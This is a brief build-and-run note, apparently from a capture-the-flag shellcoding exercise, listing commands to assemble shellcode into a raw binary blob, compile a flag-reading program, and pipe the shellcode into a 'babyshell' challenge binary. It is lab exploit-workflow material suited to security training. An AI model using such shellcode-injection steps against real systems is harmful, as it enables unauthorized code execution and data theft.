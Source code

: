 ### shellcode.c compilation
    gcc -static -nostdlib -o shellcode-elf shellcode.s
    objcopy --dump-section .text=shellcode-raw shellcode-elf

### cayflag.c compilation
    gcc -o catflag catflag.c
    
### exploit run
    (cat shellcode-raw;cat) | /babyshell_level1_testing1
